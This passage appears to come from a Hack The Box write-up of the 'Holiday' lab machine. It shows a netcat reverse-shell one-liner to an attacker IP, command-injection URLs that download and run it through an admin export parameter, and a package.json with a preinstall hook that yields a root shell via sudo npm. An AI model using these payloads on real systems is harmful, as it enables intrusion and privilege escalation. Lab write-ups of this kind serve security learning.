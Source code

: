 {% highlight bash linenos %}
#!/bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.25 9000 >/tmp/f
{% endhighlight %}

Armed with this information, we can create a file named `rs` with the reverse shell payload content above (Note that the IP has to be changed to the IP of your computer). We place this in the web server root of the Python web server started earlier. We then start a listener by executing the command `nc -lvnp 9000` and visit the two URLs below while logged in as an administrator. This downloads and executes the `rs` file on the target host. Note that `%26` is the URL encoded representation of the ampersand character `&`.

{% highlight none linenos %}
http://10.10.10.25:8000/admin/export?table=x%26wget+168431129/rs
http://10.10.10.25:8000/admin/export?table=x%26bash+rs
{% endhighlight %}

Once these two URLs have been visited, the netcat listener receives a connection from the target and we are greeted with a bash prompt, as can be seen below.

![rce](/assets/2021-10-30-HTB-Holiday-Source-Code-Analysis/rce.png)

The next step is to perform a privilege escalation to get code execution as `root`. The privilege escalation can be performed by abusing sudo rights on npm. By executing `sudo -l`, it is possible to see the line `(ALL) NOPASSWD: /usr/bin/npm i *` which means that we can install arbitrary NodeJS packages with root privileges. This could be dangerous as it is possible install a NodeJS package which executes a set of bash commands before the installation process begins. 

To create such a package, we execute the command `mkdir privescPackage` and create a file named "package.json" in the newly created directory `privescPackage`. We then fill the `package.json` file with the content below. At line 5 to 7, we define a preinstall script which states that the command `/bin/bash -i` should be executed before the installation begins. Note that we won't need to create the main file `index.js`, defined on line 4, since the payload should be executed before the installation. 

{% highlight json linenos %}
{
  "name": "privescPackage",
  "version": "1.0.0",
  "main": "index.js",
  "scripts": {
    "preinstall": "/bin/bash -i"
  }
}
{% endhighlight %}

Next, we simply attempt to install the package using the command `sudo npm i privescPackage --unsafe`. Shortly after executing the command, we acquire a shell on the target in the context of the `root` user, as can be seen in the image below
